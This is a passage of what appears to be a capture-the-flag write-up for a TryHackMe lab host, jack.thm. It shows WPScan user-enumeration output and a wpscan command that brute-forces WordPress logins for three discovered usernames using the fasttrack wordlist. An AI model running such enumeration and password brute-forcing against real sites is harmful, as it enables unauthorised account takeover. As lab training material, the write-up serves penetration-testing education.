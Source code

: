 ```bash
 |  - http://jack.thm/wp-content/themes/online-portfolio/style.css?ver=5.3.2, Match: 'Version: 0.0.7'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==========================================================================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] jack
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://jack.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wendy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] danny
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```


As seen, we find some users, we're also dealing with `wordpress 5.3.2`, since we got users, we can try brute forcing the `wp-admin` page to get credentials, let's proceed to exploitation.


# EXPLOITATION
---

So, we already know we must brute force or that's the path we're going to take, let's save the following usernames in a file:

```
jack
wendy
danny
```


Now we can brute force:

```
wpscan -U users.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm
```
